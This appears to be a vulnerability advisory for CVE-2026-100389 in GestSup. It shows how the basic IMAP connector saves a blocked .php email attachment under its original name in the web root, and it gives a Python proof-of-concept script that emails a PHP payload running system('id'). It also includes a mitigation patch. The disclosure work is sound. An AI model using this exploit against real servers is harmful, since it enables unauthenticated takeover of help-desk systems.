


# CVE-2026-100389: GestSup

**Unauthenticated remote code execution via IMAP attachment (basic connector)**

**Severity:** Critical · **Class:** Unrestricted file upload · **Fixed in:** 3.2.62

## Summary

GestSup's basic IMAP connector lets an unauthenticated attacker drop an arbitrary PHP file straight into a directory served over HTTP, simply by sending an email with a `.php` attachment to the monitored mailbox. The dropped file is then executed through Apache/mod_php. A path traversal (`../../`) can also be used to write into other directories of the web server.

## Prerequisites

1. Mail import through the basic connector must be enabled
2. The connector is polled
3. The attacker can send an email to the configured address

No GestSup account is required for exploitation.

## Root cause

For each attachment, the application does roughly this:

```php
$c_name_file = $tabAttachment->name;       // attacker-controlled
$real_filename=preg_replace("/[^A-Za-z0-9\_\-\.]/", '', $c_name_file);
$real_filename=strip_tags($real_filename);

if (CheckFileExtension($real_filename)) {
    $c_name_file = $ticket.'_'.md5(uniqid());
    // insert the attachment into the database
} else {
    // if the extension is not valid: message written to the logs
}

rename($tabAttachment->filePath,$c_name_dir_ticket.'/'.$c_name_file); 
```

- If the extension is allowed: `$c_name_file` is replaced by a randomly generated name. No problem.
- If the extension is **blocked** (such as `.php`): the code merely logs the event, but **does not `continue`, `return`, or delete the file**. Execution carries on and reaches the final `rename()`, which still uses the original attacker-supplied filename.

As a result, whether the extension is blocked or not, the attacker's file ends up renamed to its original name and placed in the ticket's attachment directory, which Apache serves directly.

## Proof of concept

To prove this vulnerability I used [my GitHub project](https://github.com/SpiizN/gestsup-docker) and modified the compose file to add an SMTP server:
```yaml
gestsup-mail:
  image: greenmail/standalone:2.1.0
  restart: always
  container_name: gestsup-mail
  environment:
    GREENMAIL_OPTS: >-
      -Dgreenmail.smtp.port=25
      -Dgreenmail.imap.port=143
      -Dgreenmail.hostname=0.0.0.0
      -Dgreenmail.users=support:support@example.com
      -Dgreenmail.verbose
  ports:
    - "3025:25"
```

Then I used [this script](./poc/exploit.py) to send the attachment:
```py
#!/usr/bin/env python3
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.application import MIMEApplication

# Mail
msg = MIMEMultipart()
msg["From"] = "attacker@example.com"
msg["To"] = "support@example.com"
msg["Subject"] = "RCE"
msg.attach(MIMEText("Hello, RCE test.", "plain", "utf-8"))

# Attachment
maintype, subtype = "text/plain".split("/")
part = MIMEApplication("<?php system('id') ?>".encode("utf-8"), _subtype=subtype)
part.add_header("Content-Disposition", "attachment", filename="exploit.php")
msg.attach(part)

# Send
server = smtplib.SMTP("127.0.0.1", 3025)
server.sendmail("attacker@example.com", ["support@example.com"], msg.as_string())
server.quit()
```

Once the script has run, the file is reported as "rejected" when the IMAP synchronization happens:



The file is nevertheless moved into the webroot, into `/upload/ticket/`, **under its original name**.

A request to `exploit.php` therefore returns the output of the `id` command.



A path traversal can likewise be used to write elsewhere on the server's filesystem, but it is not required for this exploitation.

## Impact

This vulnerability is critical for anyone using the application's "basic" IMAP connector, since it lets an unauthenticated user take control of the web server with a single email to the inbox.

## Mitigation

To fix this, attachment processing must stop as soon as an extension is rejected. For example:

```php
if (!CheckFileExtension($real_filename)) {
    @unlink($tabAttachment->filePath);
    LogIt(...);
    continue;
}
```

## References

- https://nvd.nist.gov/vuln/detail/CVE-2026-100389
- https://blog.spiizn.xyz/articles/remote-code-execution-turning-a-ticket-into-a-new-issue/
- https://www.vulncheck.com/advisories/gestsup-before-3.2.61-remote-code-execution-via-imap-attachment